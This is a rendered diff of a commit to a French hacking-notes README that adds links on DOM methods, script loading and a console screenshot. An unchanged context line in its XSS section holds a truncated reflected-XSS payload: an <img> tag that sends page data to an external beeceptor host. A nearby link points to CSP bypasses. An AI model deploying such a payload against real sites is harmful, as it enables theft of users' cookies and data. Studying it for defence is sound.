

Before and after one commit to 4nuit/Hacking, a Markdown page: web/README.md, 2 parts joined by grey strips. Drawn GitHub-style; pictures changed too: web/console.png (added); blank space fills up the shorter version.

Commit message:
add csp
Former-commit-id: 7c4a5f90a87ba1998f64e4e5a68213dc44e6fbe2

```diff
--- a/web/README.md
+++ b/web/README.md
@@ -162,6 +162,10 @@ Voir aussi `elements`
 
 - https://www.w3schools.com/jsref/tryit.asp?filename=tryjsref_loc_hash
 
+`getElements`
+
+- https://www.w3schools.com/js/tryit.asp?filename=tryjs_dom_getelementsbytagname
+
 ### XSS
 
  - https://beta.hackndo.com/attaque-xss/
@@ -169,6 +173,7 @@ Voir aussi `elements`
  - https://learn-cyber.net/article/Self-XSS-Attacks
  - https://learn-cyber.net/article/Reflected-XSS-Attacks
  - https://www.cobalt.io/blog/csp-and-bypasses
+ - https://javascript.info/script-async-defer
 
 `Protection`: HTML-encode les entrées utilisateurs, CSP
 
@@ -190,6 +195,10 @@ https://vulnerable.org?parameter=<img src="//night.free.beeceptor.com?data=".con
 
 -> appel ou accès aux éléments du DOM (ex document.getElementByID)
 
+![console](./console.png)
+
+-> accès aux erreurs
+
 [CSP Bypass](https://csplite.com/csp320/)
 
 ### HTTP Smuggling
```
